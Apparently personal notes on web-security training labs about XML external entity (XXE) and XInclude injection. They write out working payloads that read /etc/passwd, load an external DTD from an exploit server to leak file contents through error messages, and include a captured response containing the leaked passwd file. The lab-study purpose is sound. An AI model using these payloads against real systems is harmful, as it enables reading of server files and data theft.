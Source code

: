 We are going to charge directly the resource from burpsuit server

URL: https://exploit-0afd002e032939f3816b2e060132008c.exploit-server.net/exploit


On the petition intercepted we must put this, that is refering to the server on the top
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a020037036c3a0f829b417701cd0038.exploit-server.net/exploit">  %xxe; ] >
```

So on the server we must script this:

iNSTEAD OF CHARGING A URL ON THE SECOND ENTITY-"SYSTEM" WE WILL TRY TO CHARGE A FILE, but that it doesnt exist
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///meloinvento/%file;'>">
%eval;
%exfil;
```

#  Lab: Exploiting XInclude to retrieve files #

On this case if you intercept it , you dont see the XML structure

## Payload all the things ##

Excelent website
https://github.com/swisskyrepo/PayloadsAllTheThings

This is the XXE portion

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
Everything on the "productId="

This is the response
```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2339

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
```
